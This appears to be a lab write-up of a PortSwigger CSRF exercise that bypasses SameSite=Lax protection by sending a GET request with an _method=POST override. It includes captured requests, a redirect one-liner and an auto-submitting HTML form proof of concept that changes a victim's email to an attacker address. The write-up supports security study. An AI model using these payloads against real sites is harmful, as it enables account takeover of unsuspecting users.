

---

# 🛡️ CSRF Lab: SameSite Lax Bypass via Method Override

## 📌 Lab Overview

This lab demonstrates a **Cross-Site Request Forgery (CSRF)** vulnerability in an email change functionality.
The application attempts to rely on default browser protections (`SameSite=Lax`) instead of implementing a proper CSRF token.

---

## 🎯 Objective

Exploit the CSRF vulnerability to change a victim's email address using the exploit server.

---

## 🔍 Analysis

### 1. Intercepting the Request

After logging in with:

```
wiener:peter
```

I changed the email address and captured the request in Burp Suite:

```
POST /my-account/change-email HTTP/1.1
Cookie: session=...
Content-Type: application/x-www-form-urlencoded

email=test@email.com
```

### 🚨 Key Observations

* ❌ No CSRF token present
* ❌ No explicit `SameSite` attribute in cookies

---

### 2. Understanding the Cookie Behavior

Since no `SameSite` attribute is set:

* Browser defaults to → `SameSite=Lax`

#### What this means:

| Request Type             | Cookie Sent? |
| ------------------------ | ------------ |
| Cross-site POST          | ❌ No         |
| Top-level GET navigation | ✅ Yes        |

➡️ Direct CSRF via POST **will fail**
➡️ But GET-based navigation **can work**

---

## 🔓 Exploitation Strategy

### Step 1: Test GET Request

Converted request to:

```
GET /my-account/change-email?email=test@email.com HTTP/1.1
```

📌 Result:

```
405 Method Not Allowed
```

➡️ Endpoint only accepts POST

---

### Step 2: Bypass Using Method Override

Tried:

```
GET /my-account/change-email?email=test@email.com&_method=POST HTTP/1.1
```

📌 Result:

```
200 OK
```

✅ Email successfully changed

---

### 💡 Why This Works

* Browser sees → **GET request** → sends cookie (Lax allows it)
* Server sees → `_method=POST` → processes as POST

➡️ This bypasses both:

* Browser restriction ✔️
* Server validation ✔️

---

## 💣 Exploit

```html
<script>
document.location = "https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email?email=pwned@attacker.com&_method=POST";
</script>
```

---

## ⚙️ Exploit Explanation

| Component           | Purpose                                  |
| ------------------- | ---------------------------------------- |
| `document.location` | Forces top-level navigation              |
| GET request         | Ensures cookie is included               |
| `_method=POST`      | Tricks server into processing POST logic |

---

## 🔁 Attack Flow

```
Victim visits malicious page
        ↓
JavaScript triggers redirect
        ↓
Browser sends GET request + session cookie
        ↓
Server interprets request as POST
        ↓
Email gets changed
        ↓
✅ Attack successful
```

---

## ✅ Testing

* Verified exploit on my own account first
* Updated payload with a different email
* Delivered exploit to victim

---

## 🧠 Key Takeaways

* `SameSite=Lax` is **not a complete CSRF defense**
* GET-based attacks can still succeed via **top-level navigation**
* Method override (`_method`) can bypass HTTP method restrictions
* Always implement **CSRF tokens**, not just cookie-based protections

---

## 🏁 Conclusion

The application is vulnerable because it:

* Relies on default browser behavior (`SameSite=Lax`)
* Accepts method override via `_method`
* Does not implement CSRF tokens

This combination allows a full CSRF attack using a crafted GET request.

---
## The Lab payload

```html
<html>
  <body>
    <h1>Method Override PoC</h1>
    
    <form action="https://0ab7007a044d170e8587a06700140073.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="_method" value="POST">
      <input type="hidden" name="email" value="h44acker&#64;evil&#46;com">
      <input type="submit" value="Submit request">
    </form>

    <script>
      history.pushState("", "", "/");
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

